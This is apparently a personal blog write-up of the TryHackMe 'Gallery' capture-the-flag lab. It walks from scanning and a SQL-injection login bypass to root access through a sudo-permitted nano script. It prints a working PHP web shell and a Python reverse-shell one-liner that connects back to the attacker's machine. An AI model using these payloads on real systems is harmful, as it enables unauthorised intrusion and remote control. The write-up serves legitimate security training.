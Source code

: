 ```yaml
---
layout: post
title: Gallery - TryHackMe write-up
---
```


Write-up for Gallery TryHackMe CTF

Hi hackers, today I'm gonna writeup gallery, an easy TryHackMe CTF.

## User
First I did some port scanning with rustscan and nmap (learn [here](https://book.hacktricks.xyz/pentesting/pentesting-network#scanning-hosts) more about port scanning)
```
$ rustscan -a gallery.thm -t 2000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/ubuntu/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.241.136:80
Open 10.10.241.136:8080
$ nmap -p80,8080 -A -oN port.txt -T4 gallery.thm
Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-24 16:44 CEST
Nmap scan report for gallery.thm (10.10.241.136)
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Simple Image Gallery System

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.46 seconds
```
<br>
Rustscan found two open ports 80 and 8080, apache default pages was hosted on port 80

![apachedefault](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/apachedefault.png)

<br>
So, I enumerated directory with dirsearch

```
$ dirsearch -u http://gallery.thm -w $LIST/directory/dir.txt -o directory

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 329449

Output File: /home/ubuntu/ctf/tmp/80/directory

Error Log: /home/ubuntu/.local/lib/python3.9/site-packages/dirsearch/logs/errors-22-04-24_16-56-02.log

Target: http://gallery.thm/

[16:56:02] Starting: 
[16:56:42] 301 -  312B  - /gallery  ->  http://gallery.thm/gallery/
[16:57:21] 403 -  276B  - /server-status
[16:57:51] 200 -   11KB - /index.html

Task Completed
<dirsearch.dirsearch.Program object at 0x7f8e6d9c7700>
```
The directory gallery redirect to a login page
![loginpage.png](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/loginpage.png)

I checked if it was vulnerable to LDAP injection, SQL injection, XPath injection and it was vulnerable to SQL injection
![sqli.png](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/sqli.png)

and I gain access to the admin panel.
Then, I started testing admin panel function and I noticed a function allowing upload avatar image so I tried uploading this web shell:
```
<?php
	$cmd=$_GET["cmd"];
	echo system("$cmd");
?>
```
![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/schermata.png)

![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/directorylistabile.png)

![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/webshell.png)

It worked! 
Then I started a listener on my machine with nc:
```
$ rlwrap nc -nlvp 4444
```
and I executed the following reverse shell on the web shell I uploaded:
```
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.53.247",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

So I got a reverse shell
Then I run linpeas to find somethings, and it found mike's password:
![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/linpeas.png)

it worked and I got user.txt

## Getting admin hash
We also need to find admin hash, so I started looking for database password in web root and I found a file called initialize.php containing it
![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/sqlpwd.png)
Then we can log in database and dump users' hashes
![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/hash.png)

We got it!

## Root
Once we got user.txt our goal is to get root, running sudo -l I noticed we can executed /opt/rootkit.sh as root
![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/sudo-l.png)

/opt/rootkit.sh allows us to execute nano as root if we select option read, we can exploit it to spawn a root shell
![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/nanoroot.png)

It worked, we got root!

![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/root.png)

See you at the next post, keep hacking 
